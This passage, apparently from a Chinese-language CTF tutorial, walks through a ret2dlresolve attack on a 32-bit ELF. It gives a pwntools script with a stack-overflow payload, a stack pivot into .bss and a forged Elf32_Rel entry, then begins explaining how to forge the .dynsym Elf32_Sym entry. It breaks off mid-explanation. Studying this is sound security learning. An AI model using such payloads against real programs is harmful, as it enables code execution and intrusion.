 ```python
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid, params)
    pause()

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

bss = elf.bss()
base_addr = bss + 0x800
leave_ret = 0x0804915F
start_resolve = 0x8049030
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr

leak_info('base_addr', base_addr)
leak_info('rel_plt', rel_plt)

payload = b'a'*0x108 + p32(base_addr-4) + p32(elf.plt['read']) + p32(leave_ret) + p32(0) + p32(base_addr) + p32(0x200)
sh.send(payload)

payload = p32(start_resolve) + p32(base_addr + 0x18 - rel_plt) + p32(0xdeadbeaf) + p32(0) + p32(bss + 0x200) + p32(0x200)
payload += p32(0x804C010) + p32(0x207) # fake Elf32_Rel结构体
sh.send(payload)
```

## 0x04. 伪造dynsym

实际上，我们就是在一步步伪造图里面的所有结构体。再次回顾该图如下：

![在这里插入图片描述](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202406051512670.png)

那么这一步，我们应该继续伪造左边的`.dynsym`了。

程序找到这个结构体是对`.dynsym`基地址来通过上一步中讲的`Elf32_Rel`结构体中的`r_info`右移`8`位的值当作偏移来得到的。

`.dynsym`段如下红框中所示：

![image-20240605151726335](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202406051517400.png)

`ida`中我们可以选择要看的结构体，按下`ctrl+NUM+`，可以展开看该结构体：

![image-20240605152412221](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202406051524274.png)

而上一步中我们写的`r_info`为`0x207`，右移`8`位得到`2`，即是在`Elf32_Sym`中的第二个结构体（以`0`开始算）。

这里，我们和上一步一样的，在栈上伪造该`Elf32_Sym`结构体，将其直接原封不动地抄过来，并更改偏移`r_info`。

`Elf32_Sym`结构体的定义如下所示：
